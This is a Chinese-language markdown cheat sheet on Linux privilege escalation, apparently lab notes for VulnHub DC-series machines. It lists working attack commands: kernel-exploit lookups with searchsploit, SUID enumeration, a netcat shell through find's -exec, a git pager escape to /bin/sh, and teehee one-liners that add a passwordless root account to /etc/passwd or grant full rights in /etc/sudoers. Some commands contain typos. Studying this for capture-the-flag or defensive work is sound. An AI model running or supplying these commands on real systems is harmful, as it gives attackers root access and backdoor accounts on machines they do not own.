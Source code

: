 # Linux提权

## 前言

提权本质：一方面是信息收集，另一方面是对内核漏洞的掌握情况

## 基础信息收集

```bash
suid命令提权查询：https://gtfobins.github.io/
```

## 提权操作

### 内核漏洞提权

具体案例可参考DC-3内核提权

1.查看发行版以及内核版本

```bash
cat /etc/issue
cat /etc/*-release

lsb_release -a
uname -a
```

2.kali查找漏洞

```
searchsploit ubuntu 16.04 4.4.x
searchsploit linux 3.10 CentOS Linux 7
```

### SUID提权

suid全称是Set owner User ID up on execution。SUID 是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行【ls 查看时有 s 属性才支持 SUID】

常见的可用来提权的linux可执行文件如下：

```
Nmap, Vim, find, bash, more, less, nano, cp
```

查看可以suid 提权的可执行文件(查看拥有suid权限的命令)

```
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```


![image](../../ba-ji-shen-tou/vulnhub/img/vulnhub-dc1-13.png)

![image](img/vulnhub-dc1-13.png)

#### find提权

案例可见DC1的提权

```bash
find aaa - exec netcat -lvp 5555 -e /bin/sh \ # 反弹
find . -exec /bin/sh \; # 直接提权
```

#### Git提权

案例可见DC2的提权

https://gtfobins.github.io/gtfobins/git/

```
sudo -l

sudo git -p help config
!/bin/sh
```

#### teehee提权

案例参考可见DC4

```bash
eehee --help
1.直接写个 root 权限用户
echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
cat /etc/passwd | grep '/bin/bash'
su test
whoami
2.在 sudoers 里给 charles 所有权限
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
sudo -l
sudo su
```
## 参考文章

* https://wiki.xazlsec.com/project-9/doc-730/
* https://xz.aliyun.com/t/7924
* https://shng.fun/posts/2021-01-23-%E5%AD%A6%E4%B9%A0-Linux%E4%B8%AD%E5%B8%B8%E7%94%A8%E7%9A%84%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95.html
* https://www.freebuf.com/articles/web/280398.html
* https://www.hacking8.com/tiquan/other/Linux%E6%8F%90%E6%9D%83.html
